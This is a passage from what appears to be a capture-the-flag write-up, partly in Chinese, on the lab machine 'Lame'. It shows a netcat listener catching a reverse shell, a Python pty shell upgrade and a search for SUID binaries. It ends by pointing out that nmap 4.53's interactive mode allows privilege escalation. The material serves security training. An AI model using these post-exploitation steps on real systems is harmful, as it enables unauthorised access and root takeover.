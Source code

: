 ```shell
 └─$ nc -lvnp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 42558
 whoami
 daemon
 python -c &#34;import pty;pty.spawn(&#39;/bin/bash&#39;)&#34;    
 daemon@lame:/tmp$ find / -type f -perm -u=s 2&gt;/dev/null
 find / -type f -perm -u=s 2&gt;/dev/null
 /bin/umount
 /bin/fusermount
 /bin/su
 /bin/mount
 /bin/ping
 /bin/ping6
 /sbin/mount.nfs
 /lib/dhcp3-client/call-dhclient-script
 /usr/bin/sudoedit
 /usr/bin/X
 /usr/bin/netkit-rsh
 /usr/bin/gpasswd
 /usr/bin/traceroute6.iputils
 /usr/bin/sudo
 /usr/bin/netkit-rlogin
 /usr/bin/arping
 /usr/bin/at
 /usr/bin/newgrp
 /usr/bin/chfn
 /usr/bin/nmap
 /usr/bin/chsh
 /usr/bin/netkit-rcp
 /usr/bin/passwd
 /usr/bin/mtr
 /usr/sbin/uuidd
 /usr/sbin/pppd
 /usr/lib/telnetlogin
 /usr/lib/apache2/suexec
 /usr/lib/eject/dmcrypt-get-device
 /usr/lib/openssh/ssh-keysign
 /usr/lib/pt_chown
 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
 daemon@lame:/tmp$ nmap --version
 nmap --version
 Nmap version 4.53 ( http://insecure.org )
```

发现有nmap，版本为4.53，可以利用进行提权

&gt; nmap 在 2.02 到 5.21 版本中可用交互模式（--interactive）执行 shell 命令
&gt;
&gt; The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
